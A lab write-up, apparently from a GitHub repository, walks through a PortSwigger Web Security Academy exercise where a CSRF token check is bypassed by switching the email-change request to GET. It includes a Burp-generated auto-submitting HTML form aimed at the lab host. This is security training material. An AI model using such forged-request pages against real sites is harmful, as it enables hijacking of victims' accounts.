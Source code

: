 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/30d2d7e7-1e0c-46aa-b405-b2693e4f41e5)

## Solution :

Open Burp's browser and log in to your account. Submit the "Update email" form, and find the resulting request in your Proxy history.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/3ef32f4e-a43b-4223-91fe-0d996079a0ed)

Send the request to Burp Repeater and observe that if you change the value of the csrf parameter then the request is rejected.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/008933d8-bef0-4614-86a1-215caee69fd6)

Use "Change request method" on the context menu to convert it into a GET request and observe that the CSRF token is no longer verified.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d5f06e23-7e8e-46b1-800f-faafa6fa642c)

Right-click on the request, and from the context menu select Engagement tools / Generate CSRF PoC. Enable the option to include an auto-submit script and click "Regenerate".and then i changed the email from `cyber` to `ananthan`. 

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/8436e8d0-f46c-438c-818f-0db1ca9a8baa)

geneted the payload.

```html

<html>

  <!-- CSRF PoC - generated by Burp Suite Professional -->

  <body>

    <form action="https://0af800c404f6969f835dfa0800440082.web-security-academy.net/my-account/change-email">

      <input type="hidden" name="email" value="ananthan&#64;gmail&#46;com" />

      <input type="submit" value="Submit request" />

    </form>

    <script>

      history.pushState('', '', '/');

      document.forms[0].submit();

    </script>

  </body>

</html>

```

Go to the exploit server, paste your exploit HTML into the "Body" section, and click "Store".

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/a857160b-9ac4-48ac-866f-b43b6ffd37e0)

To verify if the exploit will work, try it on yourself by clicking "View exploit" and checking the resulting HTTP request and response.

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/567b2b1e-ed57-40bb-a5de-390b1892149a)

